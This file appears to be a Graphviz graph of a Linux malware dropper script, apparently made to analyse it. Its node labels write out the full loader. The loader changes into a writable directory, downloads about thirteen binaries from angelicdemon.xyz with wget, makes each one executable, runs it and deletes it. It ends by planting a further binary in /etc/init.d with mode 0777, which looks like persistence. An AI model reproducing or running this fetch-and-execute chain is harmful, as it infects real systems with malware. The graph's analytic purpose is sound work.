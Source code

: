 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://angelicdemon.xyz/lungkassssss "];
10 -> 12 [label=";,"];
12 [label="chmod +x lungkassssss "];
12 -> 14 [label=";,"];
14 [label="./lungkassssss "];
14 -> 16 [label=";,"];
16 [label="rm -rf lungkassssss\r "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://angelicdemon.xyz/mangossssss "];
28 -> 30 [label=";,"];
30 [label="chmod +x mangossssss "];
30 -> 32 [label=";,"];
32 [label="./mangossssss "];
32 -> 34 [label=";,"];
34 [label="rm -rf mangossssss\r "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://angelicdemon.xyz/opengglssss "];
46 -> 48 [label=";,"];
48 [label="chmod +x opengglssss "];
48 -> 50 [label=";,"];
50 [label="./opengglssss "];
50 -> 52 [label=";,"];
52 [label="rm -rf opengglssss\r "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://angelicdemon.xyz/vastssss "];
64 -> 66 [label=";,"];
66 [label="chmod +x vastssss "];
66 -> 68 [label=";,"];
68 [label="./vastssss "];
68 -> 70 [label=";,"];
70 [label="rm -rf vastssss\r "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://angelicdemon.xyz/greypssssss "];
82 -> 84 [label=";,"];
84 [label="chmod +x greypssssss "];
84 -> 86 [label=";,"];
86 [label="./greypssssss "];
86 -> 88 [label=";,"];
88 [label="rm -rf greypssssss\r "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://angelicdemon.xyz/kuhamosssss "];
100 -> 102 [label=";,"];
102 [label="chmod +x kuhamosssss "];
102 -> 104 [label=";,"];
104 [label="./kuhamosssss "];
104 -> 106 [label=";,"];
106 [label="rm -rf kuhamosssss\r "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://angelicdemon.xyz/marcossssss "];
118 -> 120 [label=";,"];
120 [label="chmod +x marcossssss "];
120 -> 122 [label=";,"];
122 [label="./marcossssss "];
122 -> 124 [label=";,"];
124 [label="rm -rf marcossssss\r "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://angelicdemon.xyz/chikossssss "];
136 -> 138 [label=";,"];
138 [label="chmod +x chikossssss "];
138 -> 140 [label=";,"];
140 [label="./chikossssss "];
140 -> 142 [label=";,"];
142 [label="rm -rf chikossssss\r "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://angelicdemon.xyz/pchikossssss "];
154 -> 156 [label=";,"];
156 [label="chmod +x pchikossssss "];
156 -> 158 [label=";,"];
158 [label="./pchikossssss "];
158 -> 160 [label=";,"];
160 [label="rm -rf pchikossssss\r "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://angelicdemon.xyz/cosssss "];
172 -> 174 [label=";,"];
174 [label="chmod +x cosssss "];
174 -> 176 [label=";,"];
176 [label="./cosssss "];
176 -> 178 [label=";,"];
178 [label="rm -rf cosssss\r "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://angelicdemon.xyz/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf  \r "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://angelicdemon.xyz/facebooksss3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x facebooksss3 "];
210 -> 212 [label=";,"];
212 [label="./facebooksss3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf facebooksss3\r "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://angelicdemon.xyz/netdeldssssss "];
226 -> 228 [label=";,"];
228 [label="chmod +x netdeldssssss "];
228 -> 230 [label=";,"];
230 [label="./netdeldssssss "];
230 -> 232 [label=";,"];
232 [label="rm -rf netdeldssssss\r "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://angelicdemon.xyz/dakmassssss "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 dakmassssss "];
238 -> 240 [label=";,"];
240 [label="./dakmassssss "];
240 -> 241 [label=";,"];
}
